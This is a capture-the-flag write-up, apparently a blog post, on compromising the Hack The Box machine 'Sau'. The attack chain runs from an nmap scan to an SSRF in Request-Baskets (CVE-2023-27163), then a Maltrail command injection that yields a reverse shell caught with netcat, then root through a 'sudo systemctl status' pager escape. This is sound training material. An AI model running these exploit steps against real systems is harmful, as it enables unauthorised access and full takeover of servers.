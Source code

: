 ```yaml
---
title: HTB - Sau
date: 2023-12-04
categories: [CTF, HTB]
tags: [nmap, cve-2023-27163, ssrf, command-injection, request-baskets, maltrail]
img_path: /assets/sau/
published: true
---
```


![room_banner](sau_banner.png)

## Overview

|:-:|:-:|
|Machine|[Sau](https://app.hackthebox.com/machines/551)|
|Rank|Easy|
|Time|1h26m|
|Focus|SSRF, command-injection|

> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

## 1. Information Gathering

```shell
# TCP SYN all ports scanning
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 -p- sau

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
55555/tcp open  unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 04 Dec 2023 13:59:49 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 04 Dec 2023 13:59:22 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 04 Dec 2023 13:59:22 GMT
|_    Content-Length: 0

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Initial Foothold

![](homepage.png)

![](request-baskets_version.png)

> Source: [Request-Baskets 1.2.1 Server-Side Request Forgery (CVE-2023–27163)](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7)
> 
> _**Request Baskets** is a web service designed to capture arbitrary HTTP requests and facilitate their inspection through either a RESTful API or a straightforward web user interface._
>
> *[CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) represents a critical **Server-Side Request Forgery (SSRF) vulnerability** that was identified in Request-Baskets, affecting all versions up to and including 1.2.1. This particular vulnerability grants malicious actors the ability to gain unauthorized access to network resources and sensitive information by exploiting the `/api/baskets/{name}` component through carefully crafted API requests.*
>
> *As previously mentioned, Request-Baskets operates as a web application designed to collect and log incoming HTTP requests directed to specific endpoints known as “baskets.” During the creation of these baskets, users have the flexibility to specify alternative servers to which these requests should be forwarded. **The critical issue here lies in the fact that users can inadvertently specify services they shouldn’t have access to, including those typically restricted within a network environment**.*
>
> *For example, consider a scenario where the server hosts Request-Baskets on port 55555 and simultaneously runs a Flask web server on port 8000. The Flask server, however, is configured to exclusively interact with the localhost. In this context, an attacker can exploit the SSRF vulnerability by creating a basket that forwards requests to http://localhost:8000, effectively bypassing the previous network restrictions and gaining access to the Flask web server, which should have been restricted to local access only.*

> [PoC of SSRF on Request-Baskets (CVE-2023-27163)](https://github.com/entr0pie/CVE-2023-27163/tree/main)

```shell
# enumerating internal webserver
 ./CVE-2023-27163.sh http://sau:55555 http://localhost:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "kwpjxa" proxy basket...
> Basket created!
> Accessing http://sau:55555/kwpjxa now makes the server request to http://localhost:80.
> Authorization: TOXDrjpjR4bfvkkSGah34Nvu3r8L7pv3mV3ECGG_IacT
```

![](internal_webserver.png)

> [Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) - Command Injection Vulnerability

```shell
# running maltrail PoC through request-baskets
python3 exploit.py 10.10.14.4 4444 http://sau:55555/kwpjxa
Running exploit on http://sau:55555/kwpjxa/login
```

```shell
# catching a shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.224] 33162
$
```

```shell
# user flag
puma@sau:~$ cat ~/user.txt
cat ~/user.txt
```

## 3. Privilege Escalation

```shell
# checking perms
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

> `sudo systemctl status [service]` [privilege escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/#spawn-shell-in-the-pager).

```shell
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sh
!sshh!sh
\# cat /root/root.txt
cat /root/root.txt
```

<figure>
    <img src="sau_pwned.png"
    alt="Machine pwned" >
</figure>